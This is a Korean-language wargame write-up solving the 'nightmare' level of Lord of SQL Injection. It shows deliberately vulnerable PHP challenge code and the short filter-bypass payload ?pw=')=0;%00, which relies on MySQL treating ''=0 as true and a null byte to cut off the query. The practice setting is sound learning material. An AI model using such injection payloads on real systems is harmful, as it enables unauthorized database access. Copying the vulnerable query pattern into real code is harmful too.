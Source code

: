 ```yaml
---
layout: post
title: ! "[Lord of SQL Injection] LoS - nightmare 문제풀이"
excerpt_separator: <!--more-->
tags:
  - Write-up
  - Lord of SQL Injection
---
```


이번 문제는 `nightmare`이다.  

문제 이름 답게 엄청 고민 많이 했던 문제이다.  

<!--more-->

코드는 다음과 같다.  

```php
-----------------------------------------------------------
query : select id from prob_nightmare where pw=('') and id!='admin'
-----------------------------------------------------------

<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)|#|-/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(strlen($_GET[pw])>6) exit("No Hack ~_~"); 
  $query = "select id from prob_nightmare where pw=('{$_GET[pw]}') and id!='admin'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) solve("nightmare"); 
  highlight_file(__FILE__); 
?>
```

이번에는 주석으로 사용했던 문자들이 다 필터링이 걸려 있다.  

그리고 글자 수도 6글자 이내로 적어야 한다는 제한도 있다.  

그럼 일단 주석에 대한 필터링도 우회해야 하고, `pw`에 `('')` 이런식으로 괄호가 생겨서 이 것도 어떻게 해결해야 할지 고민해야 했다.  

결론적으로 이건 문제를 못풀겠어서 인터넷을 찾아봤었다.  

쿼리를 작성할 때, `pw=1=1` 형태로도 쓸 수 있다.  

이럴 경우, `1=1`은 참이기 때문에 `pw=참`이 되어 쿼리가 정상적으로 실행된다.  

이미 쿼리에 `('')` 은 있으므로, 이 공백과 비교했을 때 참이될 수 있는 값은 `0`이다.  

이를 실제로 테스트 해 보기 위해 아래와 같이 `mysql`을 실행시켜보았다.  

```
mysql> select ''=0 ;
+------+
| ''=0 |
+------+
|    1 |
+------+
1 row in set (0.01 sec)

```

결과값이 1이 나오는 것을 알 수 있다.  

그래서 `')=0`을 넣고, 뒤의 나머지 조건을 무시하게 하기 위해서 `;`과 `null`을 넣어주었다.  

```
?pw=')=0;%00
```

그랬더니 문제를 풀 수 있었다.  

```php
---------------------------------------------------------------------
query : select id from prob_nightmare where pw=('')=0;') and id!='admin'
---------------------------------------------------------------------

NIGHTMARE Clear!
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)|#|-/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(strlen($_GET[pw])>6) exit("No Hack ~_~"); 
  $query = "select id from prob_nightmare where pw=('{$_GET[pw]}') and id!='admin'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) solve("nightmare"); 
  highlight_file(__FILE__); 
?>
```

`NIGHTMARE Clear!!`